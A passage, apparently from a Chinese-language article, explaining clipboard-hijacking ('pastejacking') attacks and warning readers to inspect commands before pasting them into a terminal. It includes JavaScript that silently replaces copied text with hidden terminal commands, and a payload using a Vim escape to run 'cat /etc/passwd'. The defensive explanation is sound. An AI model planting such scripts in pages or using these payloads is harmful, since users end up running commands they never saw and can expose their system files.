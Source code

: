 ```js
    var msg = successful ? "successful" : "unsuccessful";
    console.log("Copying text command was " + msg);
  } catch (err) {
    console.log("Oops, unable to copy");
  }

  document.body.removeChild(textArea);
}

document.addEventListener("keydown", function (event) {
  var ms = 800;
  var start = new Date().getTime();
  var end = start;
  while (end < start + ms) {
    end = new Date().getTime();
  }
  copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');
});
```

防不胜防啊。这东西就好像当年某些钓鱼网站让你乱下一些 PE 病毒一样，并没有直接的解决方案，最好的防护方式就是以后你复制命令到终端的时候仔细瞅瞅，或者先复制到一个第三方的编辑器内看看有没有啥奇怪的命令。不过别用 Vim 作为验证，譬如如下的攻击方式：

```
copyTextToClipboard('echo "evil"\n \x1b:!cat /etc/passwd\n');
```

它会利用 Vim 的 Macro 来获取你的用户密码等。如果你用的是 ITerm，它会提醒你那些自动利用换行来执行的命令: ![](https://camo.githubusercontent.com/88d852a7f44fff0ad3fd064241567a9079b6133d/687474703a2f2f692e696d6775722e636f6d2f573870776546312e706e67)
